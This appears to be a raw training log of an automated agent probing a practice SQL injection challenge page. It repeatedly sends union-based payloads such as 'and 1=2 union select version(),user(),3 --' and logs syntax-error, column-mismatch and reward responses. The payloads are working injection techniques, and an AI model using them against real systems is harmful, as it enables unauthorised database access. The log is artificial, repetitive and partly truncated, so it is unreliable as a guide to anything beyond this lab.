https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Ser

  0%|          | 317/1000000 [2:03:11<16895:46:30, 60.84s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 318/1000000 [2:03:14<12093:19:11, 43.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 319/1000000 [2:03:15<8536:01:29, 30.74s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 320/1000000 [2:03:16<6057:23:36, 21.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 321/1000000 [2:03:16<4301:23:58, 15.49s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
http

  0%|          | 322/1000000 [2:03:41<5055:13:47, 18.20s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'u

  0%|          | 323/1000000 [2:04:04<5476:57:35, 19.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 324/1000000 [2:04:05<3895:45:34, 14.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax e

  0%|          | 325/1000000 [2:04:20<4005:36:12, 14.42s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi

  0%|          | 326/1000000 [2:04:53<5511:38:04, 19.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server res

  0%|          | 327/1000000 [2:05:02<4599:17:03, 16.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 328/1000000 [2:05:03<3298:16:51, 11.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 329/1000000 [2:05:03<2374:13:22,  8.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server respons

  0%|          | 330/1000000 [2:05:44<5064:45:40, 18.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 331/1000000 [2:05:45<3580:54:09, 12.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 332/1000000 [2:05:45<2581:02:44,  9.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 333/1000000 [2:05:46<1881:37:34,  6.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 334/1000000 [2:05:47<1379:36:27,  4.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 335/1000000 [2:05:48<1035:52:50,  3.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3


  0%|          | 336/1000000 [2:07:16<8054:07:11, 29.00s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 337/1000000 [2:07:17<5705:37:27, 20.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'u

  0%|          | 338/1000000 [2:08:35<10503:07:25, 37.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Synta

  0%|          | 339/1000000 [2:09:35<12368:40:08, 44.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 340/1000000 [2:09:40<9087:16:41, 32.73s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server res

  0%|          | 341/1000000 [2:10:03<8275:26:19, 29.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 342/1000000 [2:10:04<5871:13:07, 21.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 343/1000000 [2:10:05<4174:43:45, 15.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 344/1000000 [2:10:06<2989:56:16, 10.77s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union s

  0%|          | 345/1000000 [2:11:20<8255:44:59, 29.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 346/1000000 [2:11:21<5848:04:12, 21.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 347/1000000 [2:11:21<4154:53:31, 14.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 348/1000000 [2:11:22<2973:40:52, 10.71s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 349/1000000 [2:11:23<2155:33:11,  7.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 350/1000000 [2:11:24<1584:44:00,  5.71s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 351/1000000 [2:11:26<1256:36:32,  4.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union

  0%|          | 352/1000000 [2:11:54<3202:34:00, 11.53s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union

  0%|          | 353/1000000 [2:12:22<4596:22:49, 16.55s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union s

  0%|          | 354/1000000 [2:12:43<4949:26:00, 17.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --


  0%|          | 355/1000000 [2:12:50<4063:48:06, 14.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 356/1000000 [2:12:51<2983:54:02, 10.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 357/1000000 [2:12:52<2158:53:55,  7.77s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 358/1000000 [2:12:53<1590:19:32,  5.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server r

  0%|          | 359/1000000 [2:13:00<1682:41:24,  6.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 360/1000000 [2:13:01<1241:14:55,  4.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 361/1000000 [2:13:02<941:20:57,  3.39s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 362/1000000 [2:13:03<738:57:44,  2.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.p

  0%|          | 363/1000000 [2:14:55<9887:16:31, 35.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 364/1000000 [2:14:57<7069:58:00, 25.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 365/1000000 [2:14:58<5012:20:42, 18.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax err

  0%|          | 366/1000000 [2:15:03<3987:57:51, 14.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3


  0%|          | 367/1000000 [2:16:19<9116:22:55, 32.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 368/1000000 [2:16:20<6443:10:14, 23.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 369/1000000 [2:16:21<4573:31:54, 16.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 370/1000000 [2:16:23<3343:54:35, 12.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of colu

  0%|          | 371/1000000 [2:16:50<4592:13:22, 16.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


